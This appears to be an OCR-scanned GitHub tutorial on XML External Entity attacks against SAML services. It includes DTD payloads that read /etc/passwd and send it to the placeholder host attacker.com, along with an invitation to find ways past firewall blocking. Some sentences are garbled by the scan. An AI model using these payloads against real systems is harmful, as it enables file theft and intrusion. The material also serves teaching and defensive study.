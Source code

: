 - The attacker sends the prepared XML content to the target SAML service.

- The target SAML service analyzes the DTD when processing incoming XML content.

- External entities (%payload and %internalSubset) defined in the DTD are processed. As a result of this process, an external entity named exfil is defined and the contents of the /etc/passwd file are obtained by referencing the external entity %internalSubset.

- The contents of the resulting /etc/passwd file are "http://attacker.com/?data=%internalSubset;" under the attacker's control. sent to the address.


As a result, the attacker can obtain the contents of the /etc/passwd file and send this information to http://attacker.com. In this way, sensitive user information of the target system can be obtained by the attacker.

I know this can be blocked. But remember, a hacker should always think differently. I urge you to think a little differently. For example, let's make it difficult, let's say you can't send a request to attacker.com because the firewall is blocking you. At the same time, you can't get any output to the screen because that too is blocked. What do you do? Would you leave it here? Or can you think of a different attack style? Leave an issue for this and let's evaluate your attack methods.

<hr> _ _

**External Entity Attack** : An attacker can access local or remote files or attack other targets on the network by referencing external entities with <!ENTITY> notifications.

- The attacker selects an application on the target SAML service as the target.
- An attacker generates XML content to send to the target SAML service.
- The attacker defines an external entity in the DTD section as follows:
```
<!ENTITY % payload SYSTEM "http://attacker.com/xxe.dtd">
<!ENTITY % externalEntity "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%internal;'>">
%payload;

This external entity definition points to a more hidden payload, "http://attacker.com/xxe.dtd". This file resides on an attacker-controlled server.

```

- The attacker uses the generated external entity definitions within the XML content:

```
<!DOCTYPE root [
<!ENTITY % externalEntity SYSTEM "http://attacker.com/xxe.dtd">
%externalEntity;
]>
<root></root>

```

- The attacker sends the prepared XML content to the target SAML service.
- The target SAML service analyzes the DTD when processing incoming XML content.
- External entities (%payload and %externalEntity) defined in the DTD are processed and their respective URLs are referenced.
- A request is sent to the attacker-controlled "http://attacker.com/xxe.dtd" address.
- The payload in the response from the attacker-controlled server is processed and an external entity named exfil is defined.
- The requested data (for example, sensitive file content) is sent to the attacker by referencing the exfil external entity.
